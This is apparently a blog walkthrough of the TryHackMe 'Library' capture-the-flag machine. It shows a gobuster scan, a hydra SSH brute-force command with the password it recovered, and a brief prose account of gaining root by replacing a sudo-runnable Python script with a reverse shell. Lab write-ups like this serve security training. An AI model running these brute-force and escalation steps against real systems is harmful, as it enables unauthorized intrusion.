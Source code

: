```yaml
---
layout: post
title: Walkthrough - Library
published: true
---
```


Tags: Security.
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy
URL: [https://tryhackme.com/room/bsidesgtlibrary](https://tryhackme.com/room/bsidesgtlibrary)

* * *

## Notes

```
Discovered open port 22/tcp on 10.10.33.54
Discovered open port 80/tcp on 10.10.33.54
```

- `gobuster dir -u http://library.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -x txt --no-error`

```
/images               (Status: 301) [Size: 311] [--> http://library.thm/images/]
/robots.txt           (Status: 200) [Size: 33]     
```

- inside robots.txt

```
User-agent: rockyou 
Disallow: /
```

Nothing useful here.

We can use the username meliodas on the homepage to try to brute ssh.

- `hydra -l meliodas -P /usr/share/seclists/Passwords/rockyou.txt 10.10.33.54 ssh`

```
[22][ssh] host: 10.10.33.54   login: meliodas   password: iloveyou1
```

checking sudo -l we can see the user can run the python script as sudo so deleting the file and remaking a new one with a reverse shell lets us connect and collect our flags.

* * * 

## What is the content of root.txt?

![](/assets/library01.png)

* * * 

